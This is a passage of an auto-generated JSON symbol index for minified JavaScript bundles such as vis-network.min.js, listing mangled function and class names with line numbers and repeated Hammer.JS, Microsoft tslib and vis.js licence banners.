"kind": "function", "line": 33, "name": "Fx"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Lx"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Vx"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "qx"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "gE"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "CE"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "l"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "f"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "nE"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "dE"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "lE"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "o"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "uE"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "vE"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "A"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "function", "line": 48, "name": "lO"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "function", "line": 48, "name": "cO"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "function", "line": 48, "name": "fO"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "function", "line": 48, "name": "l"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "function", "line": 48, "name": "t"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "function", "line": 48, "name": "bO"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "function", "line": 48, "name": "a"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "function", "line": 48, "name": "ZO"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "function", "line": 48, "name": "u"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "function", "line": 48, "name": "LO"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "function", "line": 48, "name": "e"}, {"doc": "@license vis.js is dual licensed under both  1. The Apache 2.0 License http://www.apache.org/licenses/LICENSE-2.0  and  2. The MIT License http://opensource.org/licenses/MIT  vis.js may be distributed under either license.", "kind": "class", "line": 26, "name": "as"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "class", "line": 48, "name": "did"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "class", "line": 48, "name": "did"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "class", "line": 48, "name": "as"}]}, {"id": "static/js/vis-network.min.js", "kind": "module", "label": "vis-network.min.js", "language": "js", "sha256": "243390e5847def34", "symbol_count": 135, "symbols": [{"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Pc"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "or"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "in"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "does"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "function", "line": 48, "name": "rO"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "function", "line": 48, "name": "g"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "function", "line": 48, "name": "g"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "function", "line": 48, "name": "has"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "function", "line": 48, "name": "does"}, {"doc": "@license vis.js is dual licensed under both  1. The Apache 2.0 License http://www.apache.org/licenses/LICENSE-2.0  and  2. The MIT License http://opensource.org/licenses/MIT  vis.js may be distributed under either license.", "kind": "function", "line": 26, "name": "C"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "s"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "e"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "e"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "f"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "s"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "d"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "h"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "i"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "f"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "v"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "function", "line": 48, "name": "I"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "function", "line": 48, "name": "v"}, {"doc": "@license vis.js is dual licensed under both  1. The Apache 2.0 License http://www.apache.org/licenses/LICENSE-2.0  and  2. The MIT License http://opensource.org/licenses/MIT  vis.js may be distributed under either license.", "kind": "function", "line": 26, "name": "g"}, {"doc": "@license vis.js is dual licensed under both  1. The Apache 2.0 License http://www.apache.org/licenses/LICENSE-2.0  and  2. The MIT License http://opensource.org/licenses/MIT  vis.js may be distributed under either license.", "kind": "function", "line": 26, "name": "t"}, {"doc": "@license vis.js is dual licensed under both  1. The Apache 2.0 License http://www.apache.org/licenses/LICENSE-2.0  and  2. The MIT License http://opensource.org/licenses/MIT  vis.js may be distributed under either license.", "kind": "function", "line": 26, "name": "zo"}, {"doc": "@license vis.js is dual licensed under both  1. The Apache 2.0 License http://www.apache.org/licenses/LICENSE-2.0  and  2. The MIT License http://opensource.org/licenses/MIT  vis.js may be distributed under either license.", "kind": "function", "line": 26, "name": "nc"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "su"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "ku"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Nu"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Wu"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Xu"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "gp"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "np"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "vp"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "g"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "g"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "I"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "o"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "o"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "A"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "ov"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * 